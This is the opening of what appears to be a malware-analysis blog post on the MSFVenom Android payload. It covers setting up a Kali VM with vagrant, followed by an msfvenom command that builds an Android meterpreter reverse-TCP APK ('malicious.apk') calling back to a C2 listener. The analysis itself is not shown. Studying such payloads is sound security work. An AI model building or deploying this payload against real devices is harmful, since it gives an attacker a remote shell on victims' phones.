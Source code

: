 ```yaml
---
title: "Analyzing MSFVenom Android Payload (Malware)"
date: "2022-05-04T09:11:56+02:00"
author: "Kousha Zanjani"
image: https://github.com/user-attachments/assets/2ffd49bd-a909-4d75-9e27-738c0203d4d7
tags: ["Android", "Malware", "MalwareAnalysis", "ReverseEngineering", "MSFVenom", "Metasploit"]
keywords: ["Android", "Malware", "MalwareAnalysis", "ReverseEngineering", "MSFVenom", "Metasploit"]
readingTime: true
---
```


MSFVenom is one of the most popular frameworks to create payloads, shellcodes, etc. I want to analyze a little bit of MSFVenom Android payload. So
<p align="center">
<img src="https://user-images.githubusercontent.com/36133745/164783235-d8df38a6-e0f3-4e68-9f64-57fa21b98435.gif">
</p>

## 🎬 Part 1 - Creating an Android payload with MSFVenom
Run your Kali Linux distribution (I use vagrant kalilinux/rolling box) and open a terminal.
```bash
# Installing Kali Linux Box
vagrant box add kalilinux/rolling

# Create a Kali Linux VM
mkdir -p /home/$USER/Desktop/vagrantmachines/kali
cd /home/$USER/Desktop/vagrantmachines/kali
vagrant init kalilinux/rolling

# Set Kali Network to Bridge
# Add below line into Vagrantfile file below config.vm.box = "kalilinux/rolling"
  config.vm.network "public_network"
# Save and Exit from Vagrantfile

# Execute Kali Machine
vagrant up

# SSH to Kali Machine
vagrant ssh

# If you want to turn it off just execute the below command after you exit from SSH
vagrant halt
```

Simply execute the below command.
```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=$(ip addr show eth0 | grep -Po 'inet \K[\d.]+') LPORT=1337 > malicious.apk
```
* `-p`: choosing payload
* `LHOST`: listener IP address (C2)
* `LPORT`: listener Port number (C2)
* `> malicious.apk`: output of executed command (attacker payload)
